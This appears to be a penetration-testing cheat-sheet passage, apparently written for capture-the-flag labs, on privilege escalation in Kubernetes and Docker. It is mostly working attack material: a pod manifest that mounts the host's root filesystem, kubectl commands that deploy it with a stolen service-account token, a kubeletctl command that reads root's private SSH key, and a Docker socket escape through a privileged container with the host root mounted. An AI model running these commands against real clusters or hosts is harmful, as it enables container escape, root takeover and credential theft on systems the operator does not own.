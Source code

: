 - Exploiting
  - pod.yaml
```
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
  - Create POD
    - kubectl --token=$token --certificate-authority=ca.crt --server=https://IP:PORT apply -f privesc.yaml
    - kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
  - Extract info
    - kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc

- Nodes
  - https://bishopfox.com/blog/kubernetes-pod-privilege-escalation
  - bad POD:
    - https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    - kubectl apply -f file.yml --token=
    - kubectl exec -it POD_NAME --token=  -- /bin/bash
- Deployments
- Services
- Ingress
- Jobs
- Enviroment variables:
  - env: search for tcp

## Docker
- Group, SUID, as root (sudoers)
- Socket: /var/run/docker.sock.
  - Existing image
    - docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

- Create and run
  - docker compose build
  - docker compose up -d
  - docker exec -it PythonLearn bash
